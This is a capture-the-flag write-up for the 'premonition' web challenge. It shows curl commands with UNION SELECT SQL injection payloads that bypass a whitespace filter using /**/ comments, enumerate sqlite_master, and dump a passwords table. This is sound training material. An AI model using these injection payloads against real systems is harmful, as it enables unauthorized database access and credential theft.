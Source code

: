 ## premonition - Web 140 Problem

### Description

```
There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?

Find the page at http://premonition-p8l05mpz.9447.plumbing:9447
```

### Solution

The web page has a form to search through a database of test scores. You control which field is searched, what it is searched for, and the comparison operator. The comparision operator was an obvious first choice for a SQL injection attack.

If you test the comparision operator with invalid operators, there is an error message indicating that the user running the script is *sqliteadmin*. Additionally, further testing showed that all whitespace characters are removed from the provided comparison operator. The resulting queries to list table names and structures:

```
$ curl -d 'score=92' -d 'ineq=is/**/null/**/union/**/select/**/name,sql,3,4/**/from/**/sqlite_master/**/where/**/' http://premonition-p8l05mpz.9447.plumbing:9447/score
[["s3ekr17_passwords", "CREATE TABLE s3ekr17_passwords(\n\tuserid real,\n\tpassword text\n)", 3, 4], ["students", "CREATE TABLE students(\n\tuserid real,\n\tfirstname text,\n\tlastname text,\n\tscore real,\n\tteacher real,\n\tclass text,\n\tdate_birth date,\n\tdate_death date\n)", 3, 4]]
```

Now we can list all of the records in the *s3ekr17_passwords* table:

```
curl -d 'score=92' -d 'ineq=is/**/null/**/union/**/select/**/userid,password,3,4/**/from/**/s3ekr17_passwords/**/where/**/' http://premonition-p8l05mpz.9447.plumbing:9447/score
[[0.0, "9", 3, 4], [1.0, "4", 3, 4], [2.0, "4", 3, 4], [3.0, "7", 3, 4], [4.0, "{", 3, 4], [5.0, "u", 3, 4], [6.0, "S", 3, 4], [7.0, "e", 3, 4], [8.0, "r", 3, 4], [9.0, "A", 3, 4], [10.0, "g", 3, 4], [11.0, "e", 3, 4], [12.0, "n", 3, 4], [13.0, "T", 3, 4], [14.0, "s", 3, 4], [15.0, "_", 3, 4], [16.0, "a", 3, 4], [17.0, "N", 3, 4], [18.0, "d", 3, 4], [19.0, "_", 3, 4], [20.0, "s", 3, 4], [21.0, "p", 3, 4], [22.0, "a", 3, 4], [23.0, "C", 3, 4], [24.0, "e", 3, 4], [25.0, "s", 3, 4], [26.0, "_", 3, 4], [27.0, "a", 3, 4], [28.0, "R", 3, 4], [29.0, "e", 3, 4], [30.0, "_", 3, 4], [31.0, "p", 3, 4], [32.0, "e", 3, 4], [33.0, "a", 3, 4], [34.0, "s", 3, 4], [35.0, "A", 3, 4], [36.0, "n", 3, 4], [37.0, "t", 3, 4], [38.0, "_", 3, 4], [39.0, "R", 3, 4], [40.0, "a", 3, 4], [41.0, "c", 3, 4], [42.0, "E", 3, 4], [43.0, "s", 3, 4], [44.0, "}", 3, 4]]
```

After concatenating all of the password fields, you get the flag:

```9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}```
